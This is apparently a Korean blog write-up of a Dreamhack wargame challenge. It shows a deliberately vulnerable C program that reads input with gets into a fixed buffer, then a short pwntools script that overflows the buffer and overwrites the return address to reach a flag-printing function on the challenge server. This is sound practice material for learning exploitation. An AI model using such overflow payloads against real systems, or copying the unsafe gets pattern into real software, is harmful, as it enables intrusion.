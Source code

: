 ```yaml
---
title: "[Dreamhack] basic_exploitation_001 문제 풀이"
date: "2024-07-14"
tags: ["dreamhack", "system_hacking", "wargame"]
draft: false
summary: "요약: 오늘도 좀 쉬웠다 ㅋ"
---
```


# 문제 파악

이번것도 쉬웠다 ~~YUMMYYYYYYYYY!~~

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
puts("TIME OUT");
exit(-1);
}

void initialize() {
setvbuf(stdin, NULL, _IONBF, 0);
setvbuf(stdout, NULL, _IONBF, 0);

signal(SIGALRM, alarm_handler);
alarm(30);
}

void read_flag() {
system("cat /flag");
}

int main(int argc, char *argv[]) {

char buf[0x80];

initialize();
gets(buf);

return 0;
}
```

지난 코드하고 달라진 점은 두군데정도가 있다.

> scanf에서 gets로 변경(별차이 없음)
> read_flag라는 대놓고 플래그 주는 함수가 있음

이걸 return address로 덮어버릴거임.

# 익스 코드 작성

전이랑 방식은 같다. 간단하게 설명하자면 

- esp~ebp까지의 간격~~이라고 해야하나..?~~ 어느정도인지 파악하기. -> 132byte 만큼 쓸거임
- 더미값 넣고,
- read_flag 주소 넣으면? 끝

```python
from pwn import *

p = remote('host1.dreamhack.games', 17039)
# p = process('./basic_exploitation_001')

payload = b'A' * 132
payload += p32(0x080485b9)

pause()

p.sendline(payload)

p.interactive()
```

아 짧아서 좋다

# 익스플로잇!!

거창하게 느낌표 좀 붙여봤고 결과는 아래 사진과 같다.

![](https://i.imgur.com/dik2JeY.png)

개 야미~~~ 행복하구만 ㅇㅇ

---

__오늘은 여기까지, 다음은 Stack Canary로 돌아오겠습니다.__
